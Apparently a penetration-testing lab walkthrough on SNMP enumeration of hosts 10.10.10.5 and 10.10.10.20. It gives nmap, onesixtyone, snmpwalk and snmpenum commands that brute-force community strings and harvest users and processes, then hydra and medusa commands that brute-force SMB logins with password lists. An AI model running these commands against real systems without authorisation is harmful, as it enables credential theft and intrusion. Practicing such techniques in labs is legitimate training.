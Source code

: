 # SNMP Enumeration 
---
## Check for open ports

```bash
nmap -sU -p 161 10.10.10.5,20
```

---

## Find the community name of the host running SNMP

Firstly, we need to discover what are the communities in use by this service.

We are going to use **onesixtyone** in order to brute-force the community name against the host 10.10.10.5. So onesixtyone will use a list of predefined potential community names (file named dict.txt) that come with the tool in order to try to guess which one is in use by the system 10.10.10.5.

```bash
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 10.10.10.5
```

>💡 Note: If onesixtyone doesn't work in your attacking machine, please try the below.

```bash
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.10.10.5
```

Another useful tool that we can use to check if SNMP is really running in a remote host, and also to gather more information, is snmpwalk. Let's run snmpwalk against 10.10.10.20 and check the results:

```bash
snmpwalk -v 1 -c public 10.10.10.5
```

---

## Gather as much as information you can via SNMP

We already know a host which is running SNMP and also its community name. As a next step, let's try to use this information to gather extra information.

We are going to use a tool named snmpenum, snmpenum, uses a database of OIDs to request specific information via SNMP. It comes with 3 different databases, stored in files:

> Note: You might have some problems running some of the previous databases. Most likely the issue is related to a bad file format between Windows and Linux. Run the following command to fix this kind of error:

```bash
root@kali:~/tools/snmp# dos2unix *.txt
```

> Depending on the system you are dealing with, you'll need to use different OID to get specific information, such as processes running, hostnames, etc. As we already discovered that 10.10.10.20 is a Windows machine, let's use snmpenum with the windows database file (windows.txt):

```bash
perl snmpenum.pl 10.10.10.5 public windows.txt
```

> Note: Please find below an alternative way to find valid users and information in general:

```bash
nmap -sU -p 161 --script snmp-win32-users 10.10.10.5
```

```bash
nmap -sU -p 161 --script snmp-* 10.10.10.5 -oG snmp.txt
```

From the list of information retrieved, we found a couple of interesting data, such as: running processes, users, services, installed applications, etc. It must be noted that the same results can be achieved using snmpcheck. Furthermore, the previous tool was much more detailed.

---
## Brute-force the SMB host

First of all, let's save the usernames to brute-force in a file:

```bash
root@kali:~/LABS/13# echo -e "admin\\nAdministrator\\nGuest " > users.txt
```

To continue, we need to review carefully the results of task2. Note that all TCP ports on 10.10.10.5 are closed, this means that it is really a remote possibility of getting a shell on that host, which has just a few UDP ports open and allowing incoming traffic.

If we review the results for the host 10.10.10.20 the situation is a little bit better, the SMB ports are open (ports 139 and 445)

Then, let's try to use hydra to perform a brute force attack against 10.10.10.20 using the SMB protocol. We might be lucky since most users out there reuse usernames and passwords in different systems across the network.

```bash
hydra -L users.txt -P /usr/share/john/password.lst 10.10.10.20 smb -f -V
or
medusa -h 10.10.10.20 -u admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt -f -t 50
```
